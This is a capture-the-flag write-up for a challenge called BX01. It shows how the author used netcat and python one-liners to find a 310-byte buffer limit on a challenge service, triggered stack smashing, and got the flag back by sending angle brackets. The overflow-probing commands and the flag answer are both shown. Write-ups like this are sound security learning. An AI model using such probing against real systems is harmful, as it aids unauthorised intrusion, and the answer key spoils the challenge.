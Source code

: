 # BX01
## BRIEFING

Access the network service at url: `cfta-bx01.allyourbases.co` and port: `8012` and find a way to get the flag by formatting a valid request.

## Solution

We were provided only a domain and a port to connect to. I started off by connecting via netcat to see what I was working with:

```console
root@osboxes:~/Downloads/be02# nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
```

We are given the opportunity to input something of our choosing. If we input something short the program will say `Error: Exception unresolved. Terminating.`:

```console
root@osboxes:~/Downloads/be02# nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
asdf
Error: Exception unresolved. Terminating.
```

If we input something long we can trigger a stack smashing detection:

```console
root@osboxes:~/Downloads/be02# python -c 'print "A" * 500' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
```

Playing around a little bit we find that the buffer size is 310; if we input 311 characters we will get the `*** stack smashing detected ***` message.

```console
root@osboxes:~/Downloads/be02# python -c 'print "A" * 310' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
root@osboxes:~/Downloads/be02# python -c 'print "A" * 311' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
```

Given the exception for "angle brackets not terminated" I sent 310 >'s instead of 310 A's and I got the flag:

```console
root@osboxes:~/Downloads/be02# python -c 'print ">" * 310' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
Request successful.

Flag: AlOnGSeaRcHFoROverWriTe
```

The flag is **AlOnGSeaRcHFoROverWriTe**.
